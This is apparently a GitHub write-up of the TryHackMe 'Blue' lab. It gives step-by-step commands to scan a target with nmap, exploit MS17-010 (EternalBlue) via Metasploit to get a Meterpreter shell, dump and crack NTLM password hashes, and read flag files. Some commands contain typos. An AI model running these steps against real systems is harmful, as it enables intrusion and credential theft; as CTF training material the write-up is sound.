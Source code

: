 # 💥 TryHackMe: Blue – EternalBlue Exploitation Walkthrough

Room Link: [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)  
Difficulty: Beginner  
Focus: MS17-010 Vulnerability (EternalBlue)

---

## 🔌 0. VPN Setup on Kali Linux (TryHackMe)

Before anything, connect to the TryHackMe network using OpenVPN.

### 📥 Download your VPN configuration file

1. Log in to [TryHackMe](https://tryhackme.com/)
2. Go to the **Access** page
3. Click **Download My Configuration File** (usually ends in `.ovpn`)

## 📂 Move the file to your system

If downloaded, Go to `Downloads` folder in your distro:
```bash
cd Downloads
```
## 🔐 Now Connect using OpenVPN 

```bash
sudo openvpn <select the downloaded file in folder>
```
![vpn configuration](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/vpn%20configuration.png?raw=true)
Next step,
## 📡 1. Network Scanning & Enumeration
### 🔍 Port Scanning with Nmap
```bash
nmap -sC -sV --sript vuln <TARGET_IP>
```
![nmap the TARGET ip](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/nmap.png?raw=true)

Sample output shows ports: 135, 139, 445 — indicating SMB is active.Sample output shows ports: 135, 139, 445 — indicating SMB is active.

## ⚔️ Step 2: Exploitation with Metasploit

We will now exploit the target using the MS17-010 (EternalBlue) vulnerability via Metasploit.

### 🧩 Launch Metasploit
```bash
msfconsole
```

![launching metasploit](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/msfconsole.png?raw=true)

Once inside Metasploit, search for the exploit module:

```bash
search eternal blue
```

![searching eternal blue in msf](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/Search.png?raw=true)

Select the first of the options shows;

```bash
use0
<next>
options
```

![msf console options](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/options.png?raw=true)

We can see the LHOSTS and RHOSTS are need to acquire the required IP Address of each;
So, set RHOSTS the <TARGET_IP> and LHOST must be the ip of ur vpn;

```bash
set RHOSTS <TARGET_IP>
set LHOST <YOUR_VPN_IP>
```

![assigning RHOSTS and LHOST](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/rhosts.png?raw=true  )

Then, We have to gain access in this system ; 
So, we have to Expoit.

```bash
exploit
```

![exploiting win](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/exploit.png?raw=true)

After exploiting, We can get the Meterpreter shell in metasploit framework.

## 🧪 Step 3: Post-Exploitation

### 🖥️ Verify Access and System Directory:

```bash
meterpreter > pwd
```
### 🔐 Dumping and Cracking Password Hashes:

Meterpreter session is activated, we can attempt to dump the user password hashes.

First, try using the built-in hash dumping command:

```bash
meterpreter > hashdump
```

![dumping hashes](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/Hashes.png?raw=true)

Save Hashes to a File, Copy and paste the output into a text file on your local machine,
e.g., pass.txt.

![saving hashes into text file](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/pass.png?raw=true)

Crack Hashes with John the Ripper Use the rockyou.txt wordlist to crack NTLM hashes:

```bash
john pass.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
```
![cracking hashes](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/john.png?raw=true)

After this, we need to find the flags.

## 🏳️ Flags

During post-exploitation, we discovered two flags in the victim's system that confirm successful access and lateral movement.

### Flag 1: Local Access Confirmation

We need to navigate to the root C:\ directory and locate the flag1.txt file.

```bash
meterpreter > cd ../../
```
List files:

```bash
meterpreter > ls
```

![listing directory](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/back_to_C.png?raw=true)

To open the flag:

```bash
meterpreter > cat flag1.txt
```

![flg1](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/flag1.png?raw=true)

### Flag 2: Deeper System Access

Flag 2 is found under system32 directory, such as: C:\Windows\System32\config\flag2.txt

Command:

 ```bash
meterpreter > cd C:\\Windows\\Sysyem32\\config
meterpreter > cat flag2.txt
```
![flag 2](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/flag2.png?raw=true)

###  Flag 3: User-Level Document Discovery

Flag 3 is found under a user directory, such as: C:\Users\jon\Documents\flag3.txt

Command:

```bash
meterpreter > cd C:\\Users\\jon\\Documents
meterpreter > ls
meterpreter > cat flag3.txt
```

![flag 3](https://github.com/atlinpereira/tryhackme-lab-eternal-blue/blob/main/ss%20git/flag3.png?raw=true)

## ✅ Conclusion

In this walkthrough, we successfully demonstrated a full exploitation workflow against a Windows 7 machine vulnerable to **MS17-010 (EternalBlue)** using **TryHackMe's "Blue" room**.

---

### 🔍 What We Did:

- 🔌 **Configured OpenVPN** to connect to TryHackMe’s network
- 📡 **Enumerated network services** using `nmap` to identify open ports
- 🧪 **Detected SMB vulnerability** (MS17-010) using Nmap NSE scripts
- 🎯 **Exploited the target** with Metasploit's EternalBlue module
- 🐚 **Gained a Meterpreter shell** for remote access and control
- 🚩 **Captured system flags** and answered room-specific questions
- 🛡️ **Outlined post-exploitation mitigation** techniques for real-world defense

---

### 🧠 Why This Matters

This simulation highlights how a single outdated protocol like **SMBv1**, if left unpatched, can allow attackers full system compromise — echoing real-world incidents like **WannaCry**.

Understanding EternalBlue is essential for both:
- ✅ **Red Teams**: to learn reliable exploitation techniques
- ✅ **Blue Teams**: to recognize and defend against legacy vulnerabilities

---

## ⚠️ Disclaimer

> 🛑 **This walkthrough is for educational and ethical purposes only.**  
> Do not use the techniques or tools demonstrated here on systems you do not own or have explicit permission to test.  
> This project was created for cybersecurity learning via the TryHackMe platform.

---

### 📌 Author Note

Feel free to fork, improve, or reference this writeup for your own learning and reporting.

🎓 Happy Hacking!



